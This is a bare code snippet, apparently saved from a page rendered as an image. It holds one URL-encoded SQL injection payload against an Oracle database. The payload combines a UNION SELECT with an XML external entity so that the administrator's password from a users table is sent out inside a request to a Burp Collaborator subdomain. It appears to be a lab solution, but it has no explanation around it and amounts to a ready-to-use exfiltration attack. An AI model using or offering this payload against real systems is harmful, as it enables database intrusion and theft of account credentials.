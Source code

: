 ```sql
'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+from+users+where+username%3d'administrator')||'.1sugypi7x0xpk09lluylmpcqmhs7gw.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual --
```
  
  

